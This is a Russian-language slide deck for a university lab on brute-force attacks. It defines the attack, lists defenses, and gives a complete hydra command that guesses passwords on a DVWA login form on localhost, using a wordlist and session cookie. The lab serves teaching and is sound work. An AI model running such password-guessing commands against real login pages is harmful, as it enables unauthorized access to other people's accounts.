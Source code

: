 ```yaml
---
## Front matter
lang: ru-RU
title: Индивидуальный проект - этап 3
author: |
	 Абдул Вахид Абдуллахи \inst{1}

institute: |
	\inst{1}Российский Университет Дружбы Народов

date: 17 марта, 2025, Москва, Россия

## Formatting
mainfont: PT Serif
romanfont: PT Serif
sansfont: PT Sans
monofont: PT Mono
toc: false
slide_level: 2
theme: metropolis
header-includes: 
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true

---
```


# Цели и задачи работы

## Цель лабораторной работы

Целью данной работы является изучение атак типа брут-форс и инструмента hydra.

# Процесс выполнения лабораторной работы

## Введение

Атака брут-форс (англ. brute force attack) — это метод взлома, основанный на последовательном 
переборе возможных комбинаций значений (паролей, ключей шифрования и т. д.), 
чтобы подобрать правильное значение и получить несанкционированный доступ.

## Введение

Атаки брут-форс являются одним из самых простых, но эффективных способов взлома учетных записей, 
если системы не защищены должным образом. 

Сильные пароли, ограничения на количество попыток входа и двухфакторная аутентификация 
могут значительно уменьшить вероятность успешной атаки.

## Страница веб-формы

![Страница веб-формы](image/01.png){ #fig:001 width=70% height=70% }

## Команда для запуска hydra

```bash

hydra -l admin -P /usr/share/dirb/wordlists/small.txt \
 localhost http-get-form "/DVWA/vulnerabilities/brute/ \
 :username=^USER^&password=^PASS^&Login=Login: \ 
 H=Cookie: PHPSESSID=f2q94tbasiksr9q31mlg9d4qum; \ 
 security=medium:F=Username and/or password incorrect."  \
 -V

```

## Результат подбора

![Результат подбора](image/03.png){ #fig:003 width=70% height=70% }

# Выводы по проделанной работе

## Вывод

Мы приобрели знания об атаках брут-форс и инструменте hydra.